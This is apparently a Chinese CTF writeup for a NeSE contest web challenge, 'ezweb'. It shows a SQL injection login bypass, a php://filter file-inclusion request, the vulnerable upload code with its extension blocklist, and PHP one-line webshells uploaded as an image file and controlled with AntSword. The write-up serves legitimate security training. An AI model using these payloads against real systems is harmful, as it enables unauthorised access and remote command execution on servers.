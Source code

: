 ```yaml
---
title: NeSE丙升乙CTF升级赛Writeup
toc: true
date: 2022-10-03 10:33:32
index_img: /image/thumbnails/NeSE-logo-new.png
categories:
	- [CTF]
tags: [NeSE, CTF, Writeup]
---
```


10月2日NeSE丙组升乙组CTF升级赛Writeup

<!--more-->

还是Too naive了，只做出来一题+两个半题

# Web

## ezweb

### 1 登录

首先是一个系统登录界面，直接尝试诸如admin，test提示用户名密码错误之后，采用绕过密码判断`admin' or 1=1#`成功登录。（虽然后来不知道谁把admin密码置空了，可以直接登录admin，但影响不大，不管用什么账户登录都可以进行后续的文件上传）

<div align=center>  <img src="https://raw.githubusercontent.com/QGrain/picgo-bed/main/figure-2022/202210061142953.png" style="zoom:67%;"/></div>

### 2 分析

在首页`综合管理`乱点一通无果之后，切换到`用户列表`，看到有所有用户个人信息：

<!-- 让表格居中显示的风格 -->

<style>
.center 
{
  width: auto;
  display: table;
  margin-left: auto;
  margin-right: auto;
}
</style>


<div class="center">

|  ID  | User |            EmailAddress             | LastLogin           |
| :--: | :--: | :---------------------------------: | ------------------- |
|  1   | ads  | [qqq@mail.com](mailto:qqq@mail.com) | 2019-08-07 13:00:00 |

</div>

似乎并没有什么用，拉到最底下发现有提示

<img src="https://raw.githubusercontent.com/QGrain/picgo-bed/main/figure-2022/202210061143978.png" style="zoom:50%;" />

是提示**Please input "?f=aab.php"**，应该是可以包含任意文件。继续切到`修改个人信息`，发现可以修改管理员个人信息，此处可利用头像上传文件。然后结合之前的提示`?f=*php`和php伪协议读取源码

```bash
# 首先通过php://filter读取目标源码的base64
http://124.16.75.162:31010/table.php?f=php://filter/read=convert.base64-encode/resource=/var/www/html/info.php

# 然后再base64解码得到源码
```

- info.php（关键部分源码）

```php
<?php
if (isset($_POST['address'])) {
    ...
    if (isset($_FILES)) {
        if ($_FILES["file"]["error"] > 0) {
            echo "错误：" . $_FILES["file"]["error"] . "<br>";
        } else {
			function deldot($s){
				for($i = strlen($s)-1;$i>0;$i--){
					$c = substr($s,$i,1);
					if($i == strlen($s)-1 and $c != '.'){
						return $s;
					}
	 
					if($c != '.'){
						return substr($s,0,$i+1);
					}
				}
			}
			$deny_ext = array(".php",".php5",".php4",".php3",".php2",".php1",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".pHp1",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".ini",".htaccess");
            $file_name = trim($_FILES['file']['name']);
			$file_name = deldot($file_name);
			//echo $file_name;
			$file_ext = strrchr($file_name, '.');
			$file_ext = strtolower($file_ext); 
			$file_ext = str_ireplace('::$DATA', '', $file_ext);
			$file_ext = trim($file_ext);
			
			if (!in_array($file_ext, $deny_ext)) {
				$name =$_FILES["file"]["name"] ;
				//$temp_file = $_FILES['file']['tmp_name'];
				//$img_path = UPLOAD_PATH.'/'.$file_name;
				$content = file_get_contents($_FILES['file']['tmp_name']);
				$content = str_replace('?', '!', $content);
				
				if (file_exists("upload/" . $_FILES["file"]["name"]))
                {
                    echo "<script>alert('文件已经存在');</script>";
                }
				else{
					move_uploaded_file($_FILES["file"]["tmp_name"], "assets/images/avatars/" . $_FILES["file"]["name"]);
					file_put_contents("assets/images/avatars/" . $_FILES["file"]["name"], $content);
					$helper = new sqlhelper();
					$sql = "UPDATE  admin SET icon='$name' WHERE id=$_SESSION[id]";
					$helper->execute_dml($sql);
				}
			} else {
				echo "<script>alert('不允许上传的类型');</script>";
			}
        }
    }
}
?>
```

看到对上传文件的最后一个`.`后面的扩展名做**黑名单限制**，以及进行了**小写转换**、**空格去除**、**特殊敏感字符替换**等操作。然后将服务端接收到的文件内容写入`assets/images/avatars/上传的文件名`。

### 3 上传

- 首先设计一句话木马：

```php
// 常见的一句话木马因为有?而失效
<?php eval(@$_POST['cmd']);?>
    
// 于是采用下面的马,一举两得
<script language="php">phpinfo();eval($_REQUEST['cmd']);</script>
```

- 然后上传木马，我尝试了各种姿势

  - burp改文件扩展名，burp改mime type都不行
  - %00截断也不行，说明php版本并不低
  - `zzy.php. .`空格绕过也不好使，虽然能上传成功，但好像访问不了==
  - ...
  - 最后还是选择用图片马，使用copy命令合并为`zzy.php.jpg`，然后直接上传成功

<div align=center><img src="https://raw.githubusercontent.com/QGrain/picgo-bed/main/figure-2022/202210061217984.png" style="zoom:60%;" /></div>

- 使用蚁剑连接成功

  - URL地址: http://124.16.75.162:31010/table.php?f=assets/images/avatars/zzy_req.php.jpg
  - 连接密码: `cmd`
  - (为了确保登录会话的有效，我也在请求信息里传入了Cookie)

- 在根目录下找到`flag{flaaaaaaaaaaaaaaaaaaa.ezweb}`

<div align=center><img src="https://raw.githubusercontent.com/QGrain/picgo-bed/main/figure-2022/202210061217687.png" style="zoom:60%;" /></div>

## sqli

TO BE COMPLETED



# Re

## Debuggame

TO BE COMPLETED